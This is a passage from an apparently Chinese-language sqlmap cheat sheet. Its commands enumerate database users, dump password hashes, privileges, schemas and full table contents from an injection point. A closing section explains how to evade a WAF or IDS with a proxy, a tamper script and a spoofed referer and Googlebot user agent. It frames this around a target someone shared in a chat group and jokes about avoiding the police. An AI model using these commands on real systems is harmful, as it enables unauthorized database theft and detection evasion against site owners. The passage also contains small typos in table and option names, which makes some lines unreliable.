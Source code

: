 sqlmap.py -u 网址 --is-dba -v 1

2)--users:列出数据库管理系统用户

sqlmap.py -u 网址 --users -v 0

3)--passwords:数据库用户密码(hash)

sqlmap.py -u 网址 --passwords -v 0

sqlmap.py -u 网址 --passwords -U sa -v 0

4)查看用户权限

sqlmap.py -u 网址 --privileges -v 0

sqlmap.py -u 网址 --privileges -U postgres -v 0

5)--dbs可以利用的数据库

sqlmap.py -u 网址 --dbs -v 0

6)--tables列数据库表

sqlmap.py -u 网址 --tables -D "information_scheam"

-D:指定数据名称

7)--columns 列出表中的列名

sqlmap.py -u 网址 --columns -T "user" -D "mysql" -v 1

-T:指定表名，-D:指定库名

8)--dump列表中指定列的内容

sqlmap.py -u 网址 --dump -T "users" -D "testdb"

-C:可以指定字段

指定列的范围为2到4

sqlmap.py -u 网址 --dump -T "users" -D "testdb" --start 2 --stop 4 -v 0

9)--dumap-all列出所有数据库，所有表内容

sqlmap.py -u 网址 --dump-all -v 0

sqlmap注入技巧-绕过WAF和IDS

刚刚群里有个哥们发了个注入点，有IDS防火墙，请求过于频繁就会封杀IP

有个思路，抛砖引玉，各位大牛请轻拍

sqlmap.py --proxy http://127.0.0.1:8087 -u 你懂得 -v 3 –dbms “MySQL” --tamper “space2morehash.py” --referer“http://www.google.com” --user-agent "Googlebot/2.1 (+http://www.googlebot.com/bot.html）"

参数解释 ：

--proxy //这个是代理的IP，你不用代理不用VPN就不怕被查水表么。。。

-u //这个不懂的面壁去

-v 3 //这个是注入的详细级别1-5
